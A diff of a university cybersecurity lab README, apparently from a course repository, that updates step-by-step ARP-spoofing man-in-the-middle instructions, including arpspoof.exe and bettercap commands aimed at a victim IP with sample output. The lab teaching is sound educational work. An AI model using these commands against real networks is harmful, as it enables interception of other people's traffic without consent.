

Before and after one commit to uw-areifers/sum-24-uw-cybersec-huskey-manager, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Updated README, to reflect instructions that work with the openly available HusKey Manager

````diff
--- a/README.md
+++ b/README.md
@@ -15,7 +15,7 @@ For this lab, we will be exploring what information an adversary can extract fro
 
 
 
-You will also need to know your victim's IP address as well as the IP address of the person hosting the site. Normally, this can be done using other tools such as netcat, however for the sake of ease and time, we can just tell each other our IP addresses. Follow the instructions below to perform our man-in-the-middle attack!
+You will also need to know your victim's IP address. Normally, this can be done using other tools such as netcat, however for the sake of ease and time, we can just look at our secondary device to find out it's IP address. Follow the instructions below to perform our man-in-the-middle attack!
 
 ### Windows ARP Spoofing:
 
@@ -29,9 +29,9 @@ Once you have `arpspoof.exe` downloaded, we can start using it immediately
 
-3. Let's say that my victim's IP address was `192.168.0.101`, and the web app they are connecting to is being hosted on `192.168.0.100` I would enter the following command:
-    - `.\arpspoof.exe 192.168.0.101 192.168.0.100`
+3. Let's say that my victim's IP address was `192.168.0.101`, I would enter the following command:
+    - `.\arpspoof.exe 192.168.0.101`
 
     And I should get the following output:
 
     ```
-    PS C:\Users\zacko\Downloads> .\arpspoof.exe 192.168.0.101 192.168.0.100
+    PS C:\Users\zacko\Downloads> .\arpspoof.exe 192.168.0.101
     Resolving victim and target...
@@ -56,8 +56,6 @@ Homebrew is a package manager for macOS, and allows us to install packages and s
 
 4. Enter the following command to perform your ARP spoof against your victim!
     `sudo bettercap -eval "set arp.spoof.targets <victim IP>; arp.spoof on"`
-
-    Note that unlike on Windows, we do not need to also set the IP address for the person running the web application.
 
 5. Once you have finished the lab and want to end the ARP spoof, you can enter `Ctrl+C` to stop the program from running.
 
````
Also changed, not shown: other parts of README.md (+2 -2 lines).
